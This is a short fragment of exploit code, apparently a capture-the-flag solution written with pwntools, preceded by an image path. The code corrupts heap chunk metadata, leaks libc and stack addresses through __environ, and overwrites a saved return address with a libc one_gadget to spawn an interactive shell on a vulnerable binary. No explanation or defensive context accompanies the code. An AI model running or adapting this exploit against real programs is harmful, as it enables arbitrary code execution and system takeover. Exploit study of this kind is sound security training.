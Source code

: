 ```bash
leak('offset >> ',offset)
add(0xe8, "g"*(0xe8-0x8) + p64(offset))
delete(4)

pl=p64(0x100)+p64(offset)
pl+=p64(chunk_list_addr)*4
edit(2, pl)
delete(2)

gadget = [0x45226,0x4527a,0xf03a4,0xf1247]
gadget_addr = libc_base + gadget[3]
payload = p64(0xe8) + p64(libc_base + libc.symbols["__environ"])
payload += p64(0xe8) + p64(0x602148)
add(0xe0, "t"*0xe0)
add(0x100, payload)


p.readuntil("# CONTENT: ")
stack_env=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
success("env_stack address: " + hex(stack_env))

edit(2, p64(stack_env-240))
edit(1, p64(gadget_addr))
p.readuntil("(CMD)>>>")
p.sendline("Q")

itr()
```
